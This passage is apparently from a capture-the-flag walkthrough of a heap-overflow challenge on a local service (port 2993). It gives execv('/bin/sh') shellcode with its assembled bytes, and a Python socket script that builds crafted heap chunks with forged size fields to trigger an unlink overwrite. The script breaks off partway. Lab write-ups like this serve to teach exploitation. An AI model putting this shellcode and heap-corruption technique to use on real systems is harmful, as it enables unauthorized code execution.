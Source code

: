 all we have to do now is to create a shellcode to execute excev and give /bin/sh\x00 as its first argument

we could but the shell path somewhere in the first chunk

just make sure its before the first '/' before "ROOT" and that it's after the first 16 bytes in the chunk since they will get overridden when the first chunk is freed
with the FD and BK pointers

```assembly
section .text
push 0 ;3rd argument
push 0 ;2nd argument
push 0x0804e010 ;1st argument (/bin/sh address we put at chunk1)
mov eax, 0x08048f6c ;load execv's address into eax
call eax ;call execv
```
use nasm on your hostmachine an assemble with
> nasm -f elf32 shellcode.as

then view the file with objdump
> objdump -d shellcode.o

```
shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   6a 00                   push   $0x0
   2:   6a 00                   push   $0x0
   4:   68 10 e0 04 08          push   $0x804e010
   9:   b8 6c 8f 04 08          mov    $0x8048f6c,%eax
   e:   ff d0                   call   *%eax
```
our shellcode is "\x6a\x00\x6a\x00\x68\x10\xe0\x04\x08\xb8\x6c\x8f\x04\x08\xff\xd0"

now that everything is ready send a 1 byte string to break out of the loop

all you have to now is to setup a simple interactive shell to send and recive data

a simple 
```python
while(True):
        c = os.read(0, 100)
        s.send(c)
        print s.recv(100)
```
will do just fine

```python
import socket
import struct
import os

s = socket.socket(socket.AF_INET)
s.connect(('127.1', 2993))

# first chunk
ck1 = "FSRD0000/bin/sh\x00/0000ROOT/1111"
ck1 += "/" * (128 - (len(ck1)))
s.send(ck1)

# second chunk
ck2 = "FSRDROOT/"
ck2 += struct.pack('I', 0xfffffffc)
ck2 += struct.pack('I', 0xfffffffc)
#FD and BK
```